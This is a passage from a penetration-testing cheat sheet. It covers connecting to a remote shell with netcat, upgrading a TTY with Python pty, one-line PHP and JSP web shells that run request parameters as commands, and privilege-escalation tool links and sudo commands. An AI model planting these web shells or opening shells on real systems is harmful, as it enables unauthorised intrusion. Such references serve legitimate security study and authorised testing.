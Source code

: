 Once it is listening, just connect to remote with netcat :

```
nc 10.10.10.1 1234
```

### Upgrade TTY

```
python -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg

echo $TERM
stty size						# rows and columns of terminal
export $TERM=xterm-256color
stty rows 67 columns 318
```

### Web Shell

PHP script :

```
<?php system($_REQUEST["cmd"]); ?>
```

JSP script :

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

ASP script :

```
...
```

## Privilege Escalation

PrivEsc checklist :

* [HackTricks](https://book.hacktricks.xyz/)
* [PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings)

Enum scripts :

* [LinEnum](https://github.com/rebootuser/LinEnum.git)
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [Seatblet](https://github.com/GhostPack/Seatbelt)
* [JAWS](https://github.com/411Hall/JAWS)
* [PEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

```
sudo su -						# switch current user to root user
sudo -l							# list sudo privileges
sudo -u user /bin/echo hello	# run command as "user"
```

